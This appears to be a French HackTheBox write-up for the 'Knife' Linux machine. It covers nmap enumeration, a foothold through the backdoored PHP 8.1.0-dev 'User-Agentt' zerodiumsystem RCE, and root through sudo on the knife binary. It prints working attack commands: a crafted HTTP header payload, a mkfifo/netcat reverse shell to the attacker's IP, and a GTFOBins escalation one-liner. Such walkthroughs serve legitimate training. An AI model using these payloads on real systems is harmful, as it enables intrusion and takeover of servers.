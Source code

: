 ```yaml
---
title: HTB | Knife
description: Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell. 
slug: knife-htb
date: 2025-01-22 00:00:00+0000
cover:
  image: cover.png
  hidden: true     # cache la bannière
categories:
    - HackTheBox
tags:
    - Linux
    - Easy
weight: 1       ## You can add weight to some posts to override the default sorting (date descending)
---
```

<!-- 
<img src="cover.png" alt="Knife cover" class="logo-htb">

| Machine name   | OS         | IP           | Difficulty |
| :-----------:  | :--------: | :----------: | :--------: |
| Knife          | Linux      | 10.10.10.242 | Easy       |
 -->

<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Knife cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Knife</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.242</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
$ nmap -sC -sV -An -T4 -vvv 10.10.10.242

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EA...
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2....
|   256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1l....
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

### PHP 8.1.0-dev (RCE)
Avec burp, on observe que le serveur utilise la version 8.1.0-dev de php. Avec **searchsploit**, on voit qu'il existe une RCE sur cette version de php : 
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit 8.1.0-dev 

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                                                 | php/webapps/49933.py
```

### Exploit from searchsploit
On peut utiliser un script python pour exploiter la vuln:
```bash
┌──(kali㉿kali)-[~/htb/Knife]
└─$ python3 49933.py   
Enter the full host url:
http://knife.htb

Interactive shell is opened on http://knife.htb 
Can't acces tty; job crontol turned off.
$ whoami
james
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 1337 >/tmp/f

------------------------------------

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337              
listening on [any] 1337 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 60424
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
```

### Exploit from Burp
La vulnérabilité consiste à ajouter une variable "User-Agentt", avec 2 "t", et d'écrire la commande a executé dans la fonction "zerodiumsystem('COMMANDE_ICI')" :
```bash
## FROM BURP :

GET / HTTP/1.1
Host: knife.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 1337 >/tmp/f');
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1

---------------------------------

┌──(kali㉿kali)-[~/htb/Knife]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 60498
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 1337
                                        
┌──(kali㉿kali)-[~/htb/Knife]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1337

james@knife:/$ whoami
james
james@knife:/$ cd
james@knife:~$ cat user.txt 
4819.....4e49f
```

## Privilege Escalation

### Knife Binary exploit
Avec **sudo -l**, on observe que l'on peut executer le binaire knife en tant que root. Sur `gtfobins`, on trouve rapidement une exploit pour faire une élévation de privilège avec ce binaire.  

Voici le lien exacte de la page :
https://gtfobins.github.io/gtfobins/knife/

```bash
james@knife:/home$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/home$ sudo knife exec -E 'exec "/bin/sh"'
## whoami
root
## cd /root
## cat root.txt
3db8b.....ce60
```